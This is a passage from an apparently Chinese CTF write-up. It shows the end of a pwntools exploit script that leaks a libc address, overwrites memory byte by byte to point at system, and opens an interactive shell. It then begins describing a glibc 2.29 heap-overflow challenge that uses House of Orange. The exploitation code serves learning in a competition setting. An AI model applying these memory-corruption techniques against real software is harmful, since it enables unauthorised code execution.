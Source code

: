 ```py
    #leak libc
    #size

    offset = 0x13ed750
    p.sendline(str(0xfffff0))
    #
    p.recvuntil("0\n")
    p.send(str(offset+1))
    p.send('\x38')

    p.recvuntil("1\n")

    p.send(str(offset+0x20))

    p.send('\x00')
    p.recvn(8)
    libc_base = u64(p.recv(8)) - (0x7fd2b2a208b0-0x7fd2b2633000)
    log.success("libc base => " + hex(libc_base))
    shell_addr = libc_base + gadgets[0]
    '''
    p.recvuntil("2\n")
    p.send(str(offset+0x28))
    p.send('\xff')

    #

    RandWrite(0x3e82b8,p64(shell_addr)[-1])
    RandWrite(0x3e82b9,p64(shell_addr)[-2])
    gdb.attach(p)
    RandWrite(0x3e82ba,p64(shell_addr)[-3])
    '''

    print hex(shell_addr)
    system_addr = libc_base + libc.sym['system']
    RandWrite(0x619f68,p64(system_addr)[0])
    RandWrite(0x619f69,p64(system_addr)[1])
    RandWrite(0x619f6a,p64(system_addr)[2])
    RandWrite(0x619f68-(3848-2312),'s')
    gdb.attach(p,'b _dl_fini+320')
    RandWrite(0x619f68-(3848-2312)+1,'h')

    p.interactive()

exp()
```

### pwn3

#### 程序逻辑&漏洞利用

pwn3的环境是2.29，有Malloc和Edit，看到没有free就想到了House-of-Orange，Edit可以指定读取的size，存在堆溢出。
